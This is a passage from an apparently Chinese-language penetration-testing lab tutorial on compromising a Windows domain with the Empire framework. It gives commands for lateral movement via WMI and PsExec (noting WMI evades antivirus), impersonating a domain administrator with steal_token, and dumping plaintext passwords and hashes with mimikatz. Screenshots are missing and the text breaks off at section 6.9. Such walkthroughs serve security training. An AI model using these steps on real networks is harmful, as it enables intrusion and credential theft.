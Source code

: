 --图片--

发现域控叫做DC。

## 6.6 会话注入
命令如下：

```
usemodule lateral_movement/invoke_wmi    获取win7的管理员权限，是系统自带的不容易被防火墙杀软拦截
usemodule lateral_movement/invoke_psexec            获取win7的系统权限，容易留下痕迹
```

获取win7的系统权限

```
usemodule lateral_movement/invoke_psexec
set Listener C1ay
set ComputerName win7
```

--图片--

新会话返回成功。返回agents通过list可以看到已经获得win7系统权限

--图片--

## 6.7 通过steal_token窃取身份
通过ps查看该主机是否有域管理进程

--图片--

这里我们通过steal_token窃取administer的身份，窃取之后就有dc的访问权限

--图片--

查看DC的C盘目录

--图片--

通过revtoself可以恢复原来的身份

--图片--

## 6.8 通过mimikatz获取凭证
可以通过info查看权限

--图片--

当前的权限为1我们就可以用mimikatz 这个命令获取明文还有用户的一些凭证。

--图片--

我们获取之后可以用一个creds命令 查询用户凭证信息

--图片--

其中plaintext是明文密码，hash是通过加密后的密码。

## 6.9 获取域控权限
通过会话注入获取DC权限，命令如下：
